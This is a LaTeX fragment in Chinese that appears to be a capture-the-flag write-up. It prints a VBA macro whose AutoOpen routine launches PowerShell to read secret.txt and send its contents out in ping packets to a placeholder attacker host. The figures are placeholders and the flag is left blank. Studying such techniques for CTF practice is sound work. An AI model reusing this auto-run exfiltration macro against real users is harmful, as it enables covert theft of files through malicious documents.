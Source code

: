\documentclass[a4paper,UTF8]{ctexart}
\begin{document}
他们收到的返回结果如下图：
\begin{figure}[H]
\centering
  \texttt{[image: dir.eps]}
\end{figure}

注意到图中显示有一个名为的文件，再次修改脚本（事实上唯一的修改是将里的内容修改为 ），将该文件打开并送回文件内容，代码如下：

\begin{verbatim}
Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")  
    strCmd = "powershell ""$dir=type secret.txt;(New-Object System.Net.NetworkInformation.Ping).Send('OUR\_SERVER\_IP', 1000,[system.Text.Encoding]::UTF8.GetBytes($dir)"""
    Set objExec = objShell.Exec(strCmd)
End Function
\end{verbatim}

返回结果如下图：

\begin{figure}[H]
\centering
  \texttt{[image: flag.eps]}
\end{figure}

从图中得到了flag: 
\end{document}
